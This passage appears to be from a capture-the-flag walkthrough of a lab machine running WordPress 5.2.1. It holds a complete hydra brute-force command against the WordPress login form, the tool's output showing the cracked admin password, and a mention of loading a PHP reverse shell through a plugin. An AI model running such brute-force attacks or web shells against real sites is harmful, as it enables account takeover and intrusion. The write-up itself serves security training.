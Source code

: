 Wordpress 5.2.1 is identified as insecure. Let's ask Google why... and we find https://wpscan.com/wordpress/521  -- looks like the most interesting thing here is a potential object injection for the PHPMailer.  They did have a contact form, let's stash this knowledge for the moment and see what else we can find.

### BurpSuite

I'm going to run an active scan on the WordPress site and see if Burp finds anything obvious.

It does not.  I pick a couple other pages and also nothing obvious.

Oh, but then I remember... password re-use... (I peaked at the walkthrough :( )

### Logging in as Admin

Okay, they fooled me twice.  Shame on me.  I need to re-use the password from a previous machine again so let's try that.  This time, however, let's put it in a modified fasttrack.txt and use hydra for good practice (you know, for the next webform that's gonna try and trick me up).

```
sudo hydra -I -v -f -l admin -P ~/fasttrack.txt 10.10.10.29 http-post-form "/wordpress/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:is incorrect"
```

-I = ignore existing session, don't try to recover (useful for debugging this command)
-v = verbose, show me everything
-f = stop after you find a match
-l = the username to try
-P = the password file we modified
then, in order, it's <IP> <method> "<path>:<payload string>:<failure text>"

```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these _ ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-07-25 21:17:33
[DATA] max 16 tasks per 1 server, overall 16 tasks, 228 login tries (l:1/p:228), ~15 tries per task
[DATA] attacking http-post-form://10.10.10.29:80/wordpress/wp-login.php:log=admin&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.29%2Fwordpress%2Fwp-admin%2F&testcookie=1:is incorrect
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http://10.10.10.29/wordpress/wp-admin/

[80][http-post-form] host: 10.10.10.29   login: admin   password: P@s5w0rd!
[STATUS] attack finished for 10.10.10.29 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-07-25 21:17:54
```

So we have success, and the password as we expect is `P@s5w0rd!` -- now we're logged in.

### The WordPress Admin

So there's a couple things to note.  You could fire up metasploit and use the wp module to spawn a shell, I'm guessing with a custom plugin, or you could have fun and write your own.  I tried to shoehorn the php-reverse-shell into a shortcode plugin and it worked... kinda... the only problem is that the default php-reverse-shell relies on the server being Linux.
